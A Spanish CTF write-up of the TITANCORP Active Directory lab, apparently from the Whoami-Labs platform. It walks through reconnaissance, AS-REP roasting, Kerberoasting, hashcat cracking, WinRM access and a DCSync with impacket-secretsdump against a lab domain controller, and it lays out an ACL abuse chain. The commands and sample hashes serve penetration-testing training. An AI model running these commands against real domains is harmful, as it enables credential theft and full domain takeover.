# TITANCORP — Writeup de Auditoría de Seguridad (CTF)

| Campo | Valor |
|---|---|
| **Laboratorio** | TITANCORP — *TitanCorp* |
| **Plataforma** | Whoami-Labs (OVA de VMware) |
| **Dificultad** | Difícil ★★★★★☆☆☆ (5 puntos) |
| **Categoría** | Active Directory · Kerberos · ACLs · pivoting y movimiento lateral |
| **Autor del writeup** | chifay |
| **Fecha** | 26/10/2026 |
| **Objetivo** | `172.16.202.131` — `WIN-CFIU5AU7L2D.corp.local` |
| **Atacante** | Kali Linux — `172.16.202.129/24` |
| **Hostname del objetivo** | `WIN-CFIU5AU7L2D` |
| **Sistema del objetivo** | Windows Server 2019 Standard Evaluation (10.0.17763) · AD DS · DNS · Kerberos · LDAP · SMB · WinRM |
| **Bandera obtenida** | `CPENT{t1t4n_c0rp_mult1h0p_bl00dh0und_m4st3r_2026}` |
| **Verificación** | Lectura directa del fichero máster del DC. **La OVA no incluye un validador oficial**; no se usó ni se atribuye uno. |
| **Vector de entrada** | AS-REP/Kerberoasting → `Password123` → `svc_sql` (`BUILTIN\Administrators`) → WinRM |
| **Compromiso** | DCSync con `svc_sql`; lectura de la bandera como `titan_api` |
| **Ruta intencionada** | `d.morales` → `Data-Analytics-Ops` → `titan_api` → `Core-Infrastructure-Admins` → `Administrators` → DC; validada después con el hash NT de `d.morales` |
| **Documento** | Writeup completo; los artefactos que respaldan cada conclusión están en el repositorio (ver §14) |

> **Alcance y método.** TITANCORP es una **OVA de VMware**, no un contenedor. El análisis se hizo
> íntegramente por red y no se inspeccionó el disco de la VM desde el hipervisor. Las marcas de
> tiempo de los artefactos no son homogéneas (Kali, la VM y los logs usan relojes distintos); la
> cronología se reconstruye por las dependencias reales de cada paso, no por el `mtime`.
>
> **Sobre la bandera.** La OVA no publica `startlab.sh`, endpoint de validación ni comprobador
> externo. La bandera se leyó del fichero máster del DC y se contrastó con la salida del propio
> fichero. **No se inventó un validador ni se afirma una validación oficial.**

---

## 1. Resumen ejecutivo

TITANCORP no expone web, SSH ni RDP: los puertos **22, 80, 443 y 3389 están filtrados**. La única
superficie es Active Directory —DNS, Kerberos, LDAP, SMB, RPC y WinRM— sobre un único Domain
Controller. El dominio `corp.local` tiene **28 usuarios, 56 grupos y un solo equipo**, el propio DC.
No hay una segunda máquina a la que pivotar: el “movimiento lateral” de este laboratorio es
**entre identidades y grupos**, no entre hosts.

La auditoría encontró dos caminos que convergen en el mismo control del dominio:

1. **Ruta ejecutada (atajo).** Tres cuentas permiten **AS-REP roasting** y tres permiten
   **Kerberoasting**. Las seis terminan compartiendo `Password123`. Una de ellas, `svc_sql`, es
   miembro de `BUILTIN\Administrators`; por tanto, WinRM y `secretsdump -just-dc` bastan para
   ejecutar **DCSync** y comprometer el dominio entero.
2. **Ruta intencionada (diseño del laboratorio).** `d.morales` (Helpdesk L1, con acceso WinRM)
   tiene `FullControl` directo sobre `Data-Analytics-Ops` y su grupo `IT-Helpdesk` tiene
   `WriteDACL` sobre ese mismo grupo. La cadena continúa por `titan_api`, que pertenece a
   `Core-Infrastructure-Admins` y esta a `BUILTIN\Administrators`. La cadena se validó **después**
   del compromiso, usando el hash NT de `d.morales` obtenido por DCSync y un miembro de prueba.

El fichero de bandera describe la segunda ruta, pero **la entrada inicial real no fue `d.morales`**:
fue el roasting Kerberos de cuentas con contraseña débil. No se recuperó la contraseña en claro de `d.morales`; solo
su hash NT. El informe separa ambas rutas para no atribuir a la credencial de Helpdesk un acceso que
no se tuvo.

| # | Vector | De → A |
|---|---|---|
| 1 | `nmap` y enumeración AD | — → superficie (21 puertos, todos AD) |
| 2 | AS-REP roasting | sin credenciales → 3 hashes (`auditor_externo`, `c.ramirez`, `svc_backup`) |
| 3 | Kerberoasting | `svc_sql` → 3 TGS (`svc_sql`, `svc_oracle`, `titan_api`) |
| 4 | `hashcat` | 6/6 cuentas roastables → `Password123` |
| 5 | WinRM como `svc_sql` | `svc_sql` → `Pwn3d!` (`BUILTIN\Administrators`) |
| 6 | DCSync | `svc_sql` → `krbtgt` + `Administrator` + 20 hashes compartidos |
| 7 | WinRM como `titan_api` | `titan_api` → lectura de la bandera |
| 8 | Validación de ACLs | `d.morales` (hash NT) y `titan_api` → alta/baja controlada de `estudiante` |



---

## 2. Reconocimiento

### 2.1 Puertos y servicios

```bash
nmap -Pn -sT -p- --min-rate 3000 -T4 -oN recon/nmap-full.txt 172.16.202.131
nmap -Pn -sV -sC -p 22,53,80,88,135,139,389,443,445,464,593,636,3268,3269,3389,5985,9389 \
     -oN recon/nmap-services.txt 172.16.202.131
```



| Puerto | Estado | Servicio | Notas |
|---|---|---|---|
| 53/tcp | open | DNS | `Simple DNS Plus`; resuelve `corp.local` |
| 88/tcp | open | Kerberos | `Microsoft Windows Kerberos` |
| 135/tcp | open | MSRPC | RPC endpoint mapper |
| 139/tcp | open | NetBIOS | Sesión SMB heredada |
| 389/tcp | open | LDAP | `Domain: corp.local` |
| 445/tcp | open | SMB | Firma **enabled and required**; SMBv1 deshabilitado |
| 464/tcp | open | kpasswd5 | Cambio de contraseña Kerberos |
| 593/tcp | open | RPC over HTTP | `ncacn_http` |
| 636/tcp | open | LDAPS | `tcpwrapped` |
| 3268/tcp | open | Global Catalog | LDAP del GC |
| 3269/tcp | open | Global Catalog SSL | `tcpwrapped` |
| 5985/tcp | open | WinRM | `Microsoft HTTPAPI httpd 2.0` |
| 9389/tcp | open | ADWS | Servicios web de AD |
| 49666, 49667, 49677, 49678, 49680, 49681, 49691, 49700/tcp | open | RPC dinámico | Puertos altos de RPC |

En total, **21 puertos abiertos** de 65 535. Los puertos `22`, `80`, `443` y `3389` están
**filtrados**, no cerrados: no hay una aplicación web ni un servicio SSH/RDP que enumerar. La
decisión fue no perder tiempo con fuerza bruta web/SSH y atacar identidad.

### 2.2 DNS, SMB y LDAP

```bash
dig @172.16.202.131 ANY corp.local +noall +answer +authority
dig @172.16.202.131 SRV _ldap._tcp.dc._msdcs.corp.local +short
dig @172.16.202.131 SRV _kerberos._tcp.corp.local +short
```

```text
corp.local.                 600  IN A    172.16.202.131
corp.local.                 3600 IN NS   win-cfiu5au7l2d.corp.local.
_ldap._tcp.dc._msdcs.corp.local. 600 IN SRV 0 100 389 win-cfiu5au7l2d.corp.local.
_kerberos._tcp.corp.local.       600 IN SRV 0 100 88  win-cfiu5au7l2d.corp.local.
```

El DNS confirma un único DC. El SMB anónimo no lista shares; con `svc_sql` aparecen los recursos
esperados de un DC:

| Share | Anónimo | `svc_sql` |
|---|---|---|
| `ADMIN$` | No listado | Listado |
| `C$` | No listado | Listado |
| `IPC$` | No listado | Listado |
| `NETLOGON` | No listado | Listado |
| `SYSVOL` | No listado | Listado |

La firma SMB está **habilitada y requerida**, y SMBv1 está deshabilitado. No se intentó relay: no
era necesario y el diseño no lo favorece.

El `rootDSE` de LDAP es legible sin autenticación (`domainFunctionality: 7`,
`rootDomainNamingContext: DC=corp,DC=local`), pero una búsqueda anónima sobre el subárbol
`DC=corp,DC=local` devuelve `Operations error`. El inventario completo se consolidó con
`domaindump` y BloodHound una vez obtenida una credencial de servicio.



### 2.3 Inventario y política

| Elemento | Valor |
|---|---|
| Dominio | `corp.local` |
| SID del dominio | `S-1-5-21-2314756761-1692085105-450277737` |
| DC / equipo | `WIN-CFIU5AU7L2D.corp.local` (`Windows Server 2019 Standard Evaluation`, build 17763) |
| Usuarios | 28 entradas (incluye cuentas built-in y de laboratorio) |
| Grupos | 56 |
| Equipos | 1 (el DC) |
| Functional level | 7 (Windows Server 2016) |

Grupos relevantes y miembros originales:

| Grupo | Miembros | Relevancia |
|---|---|---|
| `Domain Admins` | `c.duque`, `a.salazar`, `Administrator` | Administración del dominio |
| `Enterprise Admins` | `Administrator` | Administración del bosque |
| `Administrators` | `Core-Infrastructure-Admins`, `Tier1-Admins`, `svc_sql`, `Domain Admins`, `Enterprise Admins`, `Administrator` | Control total del DC |
| `Core-Infrastructure-Admins` | `s.velez`, `titan_api` | Grupo anidado en `Administrators` |
| `Data-Analytics-Ops` | `titan_api`, `d.morales` | Grupo de operaciones de datos |
| `IT-Helpdesk` | `julian.zapata`, `d.morales` | Helpdesk L1; tiene `WriteDACL` sobre `Data-Analytics-Ops` |
| `Remote Management Users` | `d.morales`, `m.torres`, `estudiante` | Acceso WinRM |
| `IT-Support-L1` | `r.navarro`, `m.torres` | Soporte técnico |
| `Database-Operators` | `svc_oracle` | Operación de bases de datos |
| `Legacy-Backups` | `c.ramirez` | Respaldos históricos |
| `External-Auditors` | `auditor_externo` | Auditores externos |

`estudiante` es una cuenta de laboratorio **preexistente**, no privilegiada y ya presente en
`Remote Management Users`; se usó como principal de prueba en la validación de ACLs y se retiró de
los dos grupos modificados.

Política de contraseñas del dominio:

| Control | Valor |
|---|---|
| Longitud mínima | 7 caracteres |
| Complejidad | Habilitada |
| Antigüedad máxima | 42 días |
| Antigüedad mínima | 1 día |
| Historial | 24 contraseñas |
| Umbral de bloqueo | **Never (0)** |
| Duración del bloqueo | 10 minutos |
| Ventana de observación | 10 minutos |
| `ms-DS-MachineAccountQuota` | 10 |

La GPO del dominio (`{31B2F340-...}`) confirma `LockoutBadCount = 0` y
`MinimumPasswordLength = 7`. La combinación es débil: `Password123` cumple la complejidad y la
longitud, y el bloqueo nunca se activa. No hizo falta *password spraying*, pero la política lo
habría permitido.

### 2.4 Decisión de superficie

Con 22/80/443/3389 filtrados y un solo DC, la superficie útil es **Kerberos + LDAP + SMB + WinRM**.
No hay aplicación web, SSH ni RDP. El pivote será lógico: identidad → grupo → ACL → dominio.

---

## 3. Kerberos: del anonimato a las credenciales

### 3.1 AS-REP roasting

Sin credenciales, `GetNPUsers` busca cuentas con `UF_DONT_REQUIRE_PREAUTH`:

```bash
impacket-GetNPUsers 'corp.local/' -dc-ip 172.16.202.131 \
  -usersfile recon/ldap/users.txt -no-pass -format hashcat \
  -outputfile loot/asrep.txt
```

```text
$krb5asrep$23$auditor_externo@CORP.LOCAL:10f0f428...   [hash truncado]
$krb5asrep$23$c.ramirez@CORP.LOCAL:cb9bc049...        [hash truncado]
$krb5asrep$23$svc_backup@CORP.LOCAL:c5d451e7...       [hash truncado]
```

| Cuenta | Grupo / función | Resultado |
|---|---|---|
| `auditor_externo` | `External-Auditors` | AS-REP → `Password123` |
| `c.ramirez` | `Legacy-Backups` | AS-REP → `Password123` |
| `svc_backup` | Cuenta de servicio | AS-REP → `Password123` |

`d.morales` **no** tiene `UF_DONT_REQUIRE_PREAUTH`; no entra por esta vía. Las tres cuentas
roasteables son suficientes para obtener la primera credencial válida.

### 3.2 Kerberoasting

Con la contraseña común ya conocida se autenticó como `svc_sql` y se solicitaron los TGS de todas
las cuentas con SPN:

```bash
impacket-GetUserSPNs 'corp.local/svc_sql:Password123' -dc-ip 172.16.202.131 \
  -request -outputfile loot/kerberoast.txt
```

| Cuenta | SPN | Grupo |
|---|---|---|
| `svc_sql` | `HTTP/intranet.corp.local`, `MSSQLSvc/db01.corp.local:1433` | `BUILTIN\Administrators` |
| `svc_oracle` | `OracleSvc/db-prod.corp.local` | `Database-Operators` |
| `titan_api` | `MSSQLSvc/bi-cluster.corp.local:1433`, `HTTP/api-bi.corp.local:8443` | `Core-Infrastructure-Admins`, `Data-Analytics-Ops` |

> **Nota de secuencia.** La captura consolidada muestra `GetUserSPNs` autenticando como
> `svc_sql:Password123`. Esa contraseña es la misma que reveló el AS-REP; la reutilización permitió
> abrir la sesión de Kerberoasting antes de crackear el TGS de `svc_sql`. El TGS de `svc_sql` se
> conserva igualmente en `loot/kerberoast.txt`, de modo que la credencial queda confirmada por dos
> vías. No se conserva un log separado de la prueba de reutilización.

### 3.3 Lo que revela la tabla de SPNs

Dos datos cambian el juego antes de crackear nada:

- **`svc_sql` ya es miembro de `BUILTIN\Administrators`.** El atajo no necesita la cadena de ACLs:
  una cuenta de servicio con contraseña débil ya está en el grupo administrativo del DC.
- **`titan_api` ya es miembro de `Core-Infrastructure-Admins`**, que está anidado en
  `BUILTIN\Administrators`. Es decir, la ruta intencionada y la real convergen en el mismo grupo.

La tabla de SPNs también confirma que los servicios usan cuentas dedicadas, pero con contraseñas
reutilizadas. El siguiente paso es crackear los TGS.



---

## 4. Cracking: `Password123` en seis cuentas

```bash
hashcat -m 18200 loot/asrep.txt /usr/share/wordlists/rockyou.txt
hashcat -m 13100 loot/kerberoast.txt /usr/share/wordlists/rockyou.txt
hashcat -m 1000  loot/ntlm-unique.txt /usr/share/wordlists/rockyou.txt
```

| Cuenta | Origen | Modo | Contraseña |
|---|---|---|---|
| `auditor_externo` | AS-REP | 18200 | `Password123` |
| `c.ramirez` | AS-REP | 18200 | `Password123` |
| `svc_backup` | AS-REP | 18200 | `Password123` |
| `svc_sql` | Kerberoast | 13100 | `Password123` |
| `svc_oracle` | Kerberoast | 13100 | `Password123` |
| `titan_api` | Kerberoast | 13100 | `Password123` |
| `m.torres` | NTDS (DCSync) | 1000 | `Summer2026!` |
| `d.morales` | NTDS (DCSync) | 1000 | **No recuperada** |

Las seis cuentas roastables comparten la misma contraseña. Además, el volcado NTDS muestra que
**20 cuentas** comparten el hash NT `58a478135a93ac3bf058a5ea0e8fdb71`, que corresponde a
`Password123`. La reutilización no es un detalle: multiplica el impacto de un único cracking.

`m.torres` tiene un hash único que se crackeó a `Summer2026!`. `d.morales` tiene el hash
`c5944a4b6fd2e7bd92b44fced7400ee0`, pero **no se recuperó su contraseña en claro**. Los hashes de
`Administrator`, `krbtgt`, `a.salazar` y `c.duque` tampoco se crackearon.

> **Lectura de política.** La complejidad y los 7 caracteres mínimos no protegen de una contraseña
> de diccionario. El bloqueo “Never” elimina la fricción de un spraying, pero el fallo principal es
> la reutilización masiva. La antigüedad máxima de 42 días tampoco compensa una credencial común.



---

## 5. Acceso inicial y DCSync

### 5.1 WinRM como `svc_sql`

`svc_sql` es una cuenta de servicio SQL, pero también es miembro de `BUILTIN\Administrators` en el
DC. SMB y WinRM la aceptan con `Pwn3d!`:

```bash
crackmapexec smb 172.16.202.131 -u svc_sql -p 'Password123'
crackmapexec winrm 172.16.202.131 -u svc_sql -p 'Password123'
```

```text
SMB   172.16.202.131  445  WIN-CFIU5AU7L2D  [+] corp.local\svc_sql:Password123 (Pwn3d!)
WINRM 172.16.202.131 5985  WIN-CFIU5AU7L2D  [+] corp.local\svc_sql:Password123 (Pwn3d!)
```

La pertenencia a `Administrators` se ve en el inventario de grupos:

```text
=== Administrators ===
  - CN=Core-Infrastructure-Admins,OU=IT_Operations,OU=TitanCorp,DC=corp,DC=local
  - CN=Tier1-Admins,OU=IT_Operations,OU=TitanCorp,DC=corp,DC=local
  - CN=svc_sql,OU=Whoami-Labs,DC=corp,DC=local
  - CN=Domain Admins,CN=Users,DC=corp,DC=local
  - CN=Enterprise Admins,CN=Users,DC=corp,DC=local
  - CN=Administrator,CN=Users,DC=corp,DC=local
```

No hace falta explotar una ACL: la cuenta de servicio ya está en el grupo que controla el DC.



### 5.2 DCSync

La ACL del dominio concede a `BUILTIN\Administrators` los derechos de replicación
(`DS-Replication-Get-Changes`, `DS-Replication-Get-Changes-All`, etc.). Por tanto, `svc_sql` puede
ejecutar DCSync:

```bash
impacket-secretsdump 'corp.local/svc_sql:Password123@172.16.202.131' -just-dc
```

```text
Administrator:500:aad3b435b51404ee:88e1db77...:::
krbtgt:502:aad3b435b51404ee:76925ef2...:::
corp.local\svc_backup:1104:aad3b435b51404ee:58a47813...:::
corp.local\svc_sql:1105:aad3b435b51404ee:58a47813...:::
corp.local\m.torres:1110:aad3b435b51404ee:41aed72c...:::
corp.local\d.morales:1125:aad3b435b51404ee:c5944a4b...:::
corp.local\titan_api:1127:aad3b435b51404ee:58a47813...:::
corp.local\s.velez:1128:aad3b435b51404ee:58a47813...:::
```

| Resultado | Detalle |
|---|---|
| Entradas volcadas | **29**: `Administrator`, `Guest`, `krbtgt`, 25 usuarios del dominio y la cuenta de equipo |
| Hashes compartidos | **20 cuentas** con `58a478135a93ac3bf058a5ea0e8fdb71` (`Password123`) |
| `Administrator` | Hash volcado; no se crackeó ni se usó para persistencia |
| `krbtgt` | Hash volcado; no se creó un golden ticket |
| `m.torres` | Hash único → `Summer2026!` |
| `d.morales` | Hash `c5944a4b6fd2e7bd92b44fced7400ee0`; sin contraseña en claro |
| Domain Admins | `a.salazar` y `c.duque` con hashes únicos no crackeados |

El volcado completo está en `loot/dcsync-full.txt`; el informe solo muestra prefijos. No se
cambiaron contraseñas, no se crearon cuentas, equipos, tareas ni servicios, y no se dejó
persistencia.

### 5.3 Impacto

Con `svc_sql` se obtiene el hash de `krbtgt` y de `Administrator`: el dominio queda comprometido.
El atajo no necesita la cadena de ACLs, pero **sí demuestra el fallo de diseño**: una cuenta de
servicio con contraseña débil y pertenencia a `Administrators` convierte un cracking de diccionario
en un DCSync. La ruta intencionada se documenta y valida en la sección siguiente, pero no fue la
que dio el acceso inicial.



---

## 6. Ruta intencionada: cadena de ACLs

El fichero de bandera enumera una cadena de cinco pasos. La tratamos como **contexto de diseño** y
la validamos por separado, después del DCSync, con las credenciales/hash disponibles. La cadena es:

| # | Salto | Relación abusada | Efecto |
|---|---|---|---|
| 1 | `d.morales` → `Data-Analytics-Ops` | `FullControl` directo + `WriteDACL` vía `IT-Helpdesk` | Modificar la membresía del grupo |
| 2 | `Data-Analytics-Ops` → `titan_api` | Pertenencia al grupo + SPN kerberoasteable | Obtener `titan_api` por Kerberoasting |
| 3 | `titan_api` → `Core-Infrastructure-Admins` | Pertenencia + `GenericWrite` efectivo sobre el grupo | Añadir miembros al grupo |
| 4 | `Core-Infrastructure-Admins` → `Administrators` | Grupo anidado | Derechos administrativos en el DC |
| 5 | `Administrators` → dominio | `GetChanges` + `GetChangesAll` | DCSync |

### 6.1 `d.morales` → `Data-Analytics-Ops`

ACE relevantes en la DACL de `Data-Analytics-Ops`:

```text
WriteDACL (0x40000)                              -> IT-Helpdesk
FullControl (0xf01ff)                            -> d.morales
FullControl (0xf01ff)                            -> Domain Admins
WriteOwner + WriteDACL + AllExtendedRights (heredado) -> Administrators
```

`d.morales` es miembro de `IT-Helpdesk` y tiene además `FullControl` directo sobre el grupo. El
`WriteDACL` de `IT-Helpdesk` permite modificar la DACL; el `FullControl` directo es aún más fuerte
y permite cambiar la membresía sin pasar por la ACL del grupo. La prueba de alta/baja demuestra el
**efecto práctico** (puede añadir miembros), pero no distingue cuál de los dos derechos se ejerció.

`d.morales` también está en `Remote Management Users`, por lo que el diseño lo usa como entrypoint
WinRM. Su contraseña en claro no se recuperó; el hash NT se obtuvo por DCSync y se usó solo para la
validación posterior.



### 6.2 `Data-Analytics-Ops` → `titan_api`

`titan_api` es la cuenta de servicio “TitanCorp BI Service”. Pertenece a `Data-Analytics-Ops` y a
`Core-Infrastructure-Admins`; tiene SPN de MSSQL y HTTP, por lo que es kerberoasteable. La
contraseña `Password123` se recuperó por Kerberoasting.

El fichero de bandera describe este paso como “GenericAll Abuse / Kerberoasting sobre `titan_api`”.
En la evidencia, el puente es la **pertenencia al grupo** y la vía ejecutada fue **Kerberoasting**;
no se identificó ni se explotó un `GenericAll` directo sobre la cuenta `titan_api`. La variante
documentada es suficiente para obtener la credencial y no altera la cuenta.

